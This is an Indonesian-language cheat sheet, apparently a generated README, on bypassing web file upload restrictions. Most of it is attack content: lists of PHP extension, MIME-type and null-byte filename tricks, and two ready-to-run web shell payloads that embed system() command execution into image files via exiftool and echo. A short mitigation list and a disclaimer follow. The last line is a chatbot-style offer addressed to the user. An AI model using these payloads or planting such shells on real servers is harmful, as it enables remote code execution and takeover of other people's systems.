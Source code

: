 # 📂 Unrestricted File Upload Bypass Techniques

![License](https://img.shields.io/badge/license-Educational-blue)
![Status](https://img.shields.io/badge/status-Active-brightgreen)
![Security](https://img.shields.io/badge/security-awareness-important)

> 📖 **Dokumen ini menjelaskan berbagai teknik umum yang digunakan untuk bypass pembatasan unggah file pada aplikasi web.**
> Ditujukan untuk **peneliti keamanan**, **penetration tester**, dan **developer** dalam mengidentifikasi potensi celah dan membangun mitigasi yang tepat.

---

## 📖 Daftar Isi

* [Deskripsi](#deskripsi)
* [Tabel Summary Bypass](#📊-tabel-summary-bypass)
* [Bypass Ekstensi File Umum](#bypass-ekstensi-file-umum)
* [Bypass Magic Number](#📌-teknik-bypass-magic-number)
* [Bypass Tipe MIME](#bypass-tipe-mime)
* [Teknik Unggah File Tanpa Batasan](#teknik-unggah-file-tanpa-batasan)
* [Rekomendasi Mitigasi](#📌-rekomendasi-mitigasi)
* [Lisensi](#📑-lisensi)
* [Kontak](#📬-kontak)

---

## Deskripsi

Serangan unrestricted file upload memungkinkan penyerang mengunggah file berbahaya ke server karena validasi yang lemah. Teknik di dokumen ini memanfaatkan celah pada:

* Validasi ekstensi file
* Pemeriksaan MIME type
* Pemeriksaan magic number file
* Sanitasi nama file yang buruk

---

## 📊 Tabel Summary Bypass

| Teknik                     | Contoh Ekstensi / Metode             | Tujuan                               |
| :------------------------- | :----------------------------------- | :----------------------------------- |
| **Bypass Ekstensi**        | `.php`, `.php5`, `.php.jpg`          | Menipu validasi ekstensi             |
| **Magic Number Injection** | Inject PHP code via `Exiftool`       | Menyisipkan shell di metadata gambar |
| **MIME Type Bypass**       | `application/x-httpd-php`            | Mengakali pengecekan tipe konten     |
| **Encoded Extension**      | `.php%00`, `.php%20`, `.php%0a`      | Menyembunyikan ekstensi asli         |
| **Double/Mixed Extension** | `.png.php`, `.jpg.pHp5`, `.php#.png` | Menyiasati pemeriksaan nama file     |

---

## Bypass Ekstensi File Umum

Beberapa ekstensi yang umum digunakan untuk bypass:

```
.php, .php5, .phtml, .pgif, .phar, .cgi, .pl, .py, .Php, .php.jpg, .php.bak, .exe
```

**Variasi:**

* `.php56`, `.php.test`, `.php.docx`, `.php.unknown`
* `.php.xxxjpg`, `.php.xxxpdf`, `.php.xxxzip`

---

## 📌 Teknik Bypass Magic Number

### 📌 Inject Metadata via Exiftool

```bash
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

---

### 📌 Append PHP Code ke File Gambar

```bash
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

---

## Bypass Tipe MIME

Bypass validasi dengan tipe MIME:

```
application/x-httpd-php
```

---

## Teknik Unggah File Tanpa Batasan

### 📌 Encoded Extension

```
.php%00, .php%20, .php%0a, .php/, .php....
```

### 📌 Double / Mixed Extension

```
.png.php, .php#.png, .php%00.png, .png.jpg.php
```

---

## 📌 Rekomendasi Mitigasi

✅ Validasi **whitelist ekstensi file**
✅ Pemeriksaan **MIME type di server**
✅ Verifikasi **magic number file**
✅ Sanitasi nama file dari karakter spesial
✅ Simpan file **di luar web root**
✅ Atur **file permission non-eksekusi**
✅ Batasi ukuran & scan isi file

---

## 📑 Lisensi

Distribusi untuk tujuan edukasi & keamanan siber.
**Gunakan dengan tanggung jawab.**

---

## 📬 Kontak

📧 **[your\_email@example.com](mailto:sinzoxp@example.com)**
📱 Telegram: [@yourhandle](https://t.me/avxr00t)

---

## 📌 Note Tambahan

🚨 **Disclaimer:**
Gunakan teknik ini hanya untuk **penetration testing legal** atau riset di lingkungan yang Anda miliki izin penuh.

---

## 📎 Preview Markdown

Jika ingin langsung dipasang ke repository GitHub, tinggal simpan dengan nama `README.md`.

---

Kalau mau sekalian kubuatin versi markdown file-nya (.md) siap download juga, tinggal beri tahu aja bro! Mau? 🚀🔥
